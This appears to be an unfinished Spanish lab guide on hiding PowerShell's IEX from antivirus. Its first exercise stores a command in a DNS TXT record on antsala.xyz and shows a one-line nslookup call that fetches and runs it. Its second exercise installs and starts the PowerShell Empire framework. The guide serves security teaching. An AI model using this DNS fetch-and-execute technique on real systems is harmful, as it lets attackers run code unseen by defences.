







# Ocultar IEX para evadir al antivirus
 

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Win 11***.

TODO. introducción

## Ejercicio 1: Hacer prueba de concepto con registro TXT.

Debemos sacar del dominio a la máquina ***Win 11***. Para ello, vamos a **Settings***, ***Accounts***, ***Access work or school*** y desconectamos al equipo del dominio.

Reiniciamos y volvemos aquí.

Debemos asegurar que el servidor DNS está correctamente configurado, tal y como aclara la imagen.



Para saltar la detección del antivirus, la instrucción ***IEX*** no debe aparecer en el payload. Para ello hacemos una prueba de concepto por medio de un registro ***TXT*** del ***DNS***.

La siguiente imagen muestra un registro TXT, llamado ***prueba***, que contiene un texto genérico en el servidor que lleva la zona ***antsala.xyz***.



Abrimos una terminal de ***Powershell***, y en ella escribimos.
```
nslookup -q=txt pruebadeconcepto.antsala.xyz
```

y obtenemos lo siguiente.
Nota: Solo nos interesa la última línea de la salida del comando.



Estudia la siguiente imagen. Usando ***[]*** podemos elegir la línea que nos interesa de la salida, que es la última.
Nota: ***Non-authoritative answer*** for forma parte de la salida.



Ahora nos fijamos en el siguiente registro TXT.


Observa qué ocurre cuando hacemos la consulta.
```
(nslookup -q=txt ejecutaesto.antsala.xyz)[-1]
```

En la salida podemos observar que hemos "extraído" un ***comando***.



Vamos a ver si podemos ejecutarlo.
```
& powershell . (nslookup -q=txt ejecutaesto.antsala.xyz)[-1]
```

***Notepad*** se abre. ¿Mágico verdad? Hemos conseguido ejecutar el comando que se almacena en un registro TXT de la zona DNS.

## Ejercicio 2: Actualizar PowerShell Empire.

En la máquina ***Kali*** abrimos una terminal y ejecutamos el siguiente comando para actualizar ***PowerShell Empire***.
```
sudo apt install powershell-empire
```

Cuando haya terminado la actualización iniciamos el servidor de ***PowerShell Empire***.
```
sudo powershell-empire server
```

El servidor se inicia, como podemos ver en la siguiente imagen.



Es es momento de iniciar el ***Cliente*** de ***PowerShell Empire***. En una nueva terminal, escribimos.
```
powershell-empire client
```

Ya tenemos el cliente iniciado.




Actualizar powershell empire en Kali.